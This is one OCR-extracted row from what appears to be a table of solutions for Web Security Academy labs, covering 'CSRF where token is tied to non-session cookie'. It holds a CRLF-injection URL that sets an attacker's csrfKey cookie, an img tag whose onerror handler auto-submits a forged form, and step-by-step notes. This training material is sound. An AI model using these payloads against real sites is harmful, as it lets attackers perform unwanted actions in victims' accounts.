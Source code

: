 |46    |CSRF where token is tied to non-session cookie                                                                           |/?search=test%0d%0aSet-Cookie:%20csrfKey=YOUR-KEY%3b%20SameSite=None  <img src="https://YOUR-LAB-ID.web-security-academy.net/?search=test%0d%0aSet-Cookie:%20csrfKey=YOUR-KEY%3b%20SameSite=None" onerror="document.forms[0].submit()">                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                     |The Search function reflects the input into a cookie.  Set-Cookie: LastSearchTerm=test; Secure; HttpOnly  /?search=test%0d%0aSet-Cookie:%20csrfKey=YOUR-KEY%3b%20SameSite=None  Consider URL encoding here, the above will work if put directly in the URL but not in the search box. %0d%0a is a new line/line break which is required to set a new cookie. So this won’t work in the search box but will work in the URL directly if URL encoded.  In the auto-submit section of the CSRF PoC, make sure the search function is first performed so that the cookie is set, and then the form is submitted. This will ensure the Cookie value and the CSRF token are matching.                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                |CSRF, Practitioner                          |